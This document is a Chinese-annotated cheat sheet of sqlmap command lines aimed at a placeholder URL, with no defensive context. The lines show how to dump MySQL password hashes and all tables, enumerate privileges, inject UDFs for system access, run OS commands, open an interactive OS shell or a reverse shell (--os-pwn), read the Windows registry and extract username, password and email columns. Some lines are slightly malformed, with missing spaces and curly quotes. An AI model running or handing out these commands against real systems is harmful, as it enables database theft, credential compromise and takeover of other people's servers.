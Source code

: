 sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--passwords #数据库用户密码

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--passwords-U root -v 0 #列出指定用户数据库密码

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --dump-all -v 0 #列出所有数据库所有表

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--privileges #查看权限

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--privileges -U root #查看指定用户权限

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --is-dba -v 1 #是否是数据库管理员

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --roles #枚举数据库用户角色

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--udf-inject #导入用户自定义函数（获取系统权限！）

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--dump-all --exclude-sysdbs -v 0 #列出当前库所有表

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --union-check #是否支持union 注入

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--union-cols #union 查询表记录

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --union-test #union 语句测试

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --union-use --banner #采用union 注入

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--union-test --union-tech orderby #union 配合 order by

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--method "POST" -- data "id=1&cat=2" #post注入

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--cookie "COOKIE_VALUE" #cookie注入

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"-b #获取banner信息

sqlmap -u "http://url/news?id=1" --level=3 --smart-v 1 -f #指纹判别数据库类型

sqlmap -u "http://url/news?id=1" --level=3 --smart--proxy"http://127.0.0.1:8118" #代理注入

sqlmap -u "http://url/news?id=1"--string"STRING_ON_TRUE_PAGE" #指定关键词

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--sql-shell #执行指定sql命令

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--os-cmd=whoami #执行系统命令

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--os-shell #系统交互shell

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--os-pwn #反弹shell

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql"--reg-read #读取win系统注册表

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --dbs-o "sqlmap.log" #保存进度

sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --dbs -o "sqlmap.log" --resume #恢复已保存进度

./sqlmap.py -u “http://www.91ri.org/ id1/1*/id2/2″

"Show.asp" --cookie "id=9" --table --level 2

--forms

--data "data"

--delay 0.5

--safe-freq 25

-v 3 --dbs --batch --tamper "base64encode.py"

sqlmap.py -u url -D "data" -T "tables" -C "username,password,email" --dump-all -v 0
